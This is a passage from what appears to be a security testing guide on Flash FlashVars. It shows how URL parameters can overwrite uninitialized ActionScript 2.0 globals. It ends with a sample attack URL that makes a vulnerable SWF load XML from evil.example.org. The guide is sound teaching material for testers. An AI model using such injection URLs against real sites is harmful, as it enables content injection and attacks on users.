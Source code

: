 FlashVars can also be initialized from the URL:

`http://www.example.org/somefilename.swf?var1=val1&var2=val2`

In ActionScript 3.0, a developer must explicitly assign the FlashVar values to local variables. Typically, this looks like:

```actionscript
var paramObj:Object = LoaderInfo(this.root.loaderInfo).parameters;
var var1:String = String(paramObj["var1"]);
var var2:String = String(paramObj["var2"]);
```

In ActionScript 2.0, any uninitialized global variable is assumed to be a FlashVar. Global variables are those variables that are prepended by `_root`, `_global` or `_level0`. This means that if an attribute like `_root.varname` is undefined throughout the code flow, it could be overwritten by URL parameters:

`http://victim/file.swf?varname=value`

Regardless of whether you are looking at ActionScript 2.0 or ActionScript 3.0, FlashVars can be a vector of attack. Let's look at some ActionScript 2.0 code that is vulnerable:

Example:

```actionscript
movieClip 328 __Packages.Locale {

#initclip
    if (!_global.Locale) {
    var v1 = function (on_load) {
        var v5 = new XML();
        var v6 = this;
        v5.onLoad = function (success) {
        if (success) {
            trace('Locale loaded xml');
            var v3 = this.xliff.file.body.$trans_unit;
            var v2 = 0;
            while (v2 < v3.length) {
            Locale.strings[v3[v2]._resname] = v3[v2].source.__text;
            ++v2;
            }
            on_load();
        } else {}
        };
        if (_root.language != undefined) {
        Locale.DEFAULT_LANG = _root.language;
        }
        v5.load(Locale.DEFAULT_LANG + '/player_' +
                            Locale.DEFAULT_LANG + '.xml');
    };
```

The above code could be attacked by requesting:

`http://victim/file.swf?language=http://evil.example.org/malicious.xml?`
